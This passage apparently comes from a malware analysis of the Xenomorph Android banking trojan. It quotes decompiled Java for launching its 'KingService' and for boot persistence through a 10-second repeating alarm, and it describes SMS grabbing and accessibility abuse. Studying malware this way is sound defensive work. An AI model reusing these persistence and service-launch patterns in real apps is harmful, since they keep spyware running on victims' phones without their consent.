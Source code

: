 #### 3 - KingService Launcher

Starts the `KingService` which ensures the malicious functionality is running including SMS grabbing, WakeLock persistance, setting up network connectivity, making sure `FitnessAccessibilityService` is on and logging user screen interactions.

```java
    public static boolean startKingService(Context context) {
        try {
            if (isServiceRunning(context, KingService.class)) {
                return false;
            }
            context.startService(new Intent(context, KingService.class));
            return true;
        } catch (Exception unused) {
            if (!isIgnoringBatteryOptimizations(context)) {
                startDozeMode(context);
            }
            Log("run_king_service", "error1");
            return false;
        }
    }
```

#### 4- Boot Persistence

This code sets up a repeating alarm that triggers a service (`BootReceiverService`) every 10 seconds. This service checks for device boot completion and user presence/absence based on received broadcasts. It starts different services (`KingService` or `EndlessService` that is responsible for user presence status logging) depending on specific conditions like accessibility service state or user presence.

```java
    public static void startRepeatingAlarm(Context context, Class<?> cls, String str, long j) {
        try {
            Intent intent = new Intent(context, cls);
            intent.setAction(str);
            ((AlarmManager) context.getSystemService("alarm")).setRepeating(0, System.currentTimeMillis() + j, j, PendingIntent.getBroadcast(context, 0, intent, 0));
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
```

```java
UtilGlobal.startRepeatingAlarm(this, BootReceiverService.class, "check", 10000L);
```

#### 5- Changing the system default SMS App

This requests Xenomorph to become the default SMS application on the infected device.

#### 6- Notification Interception
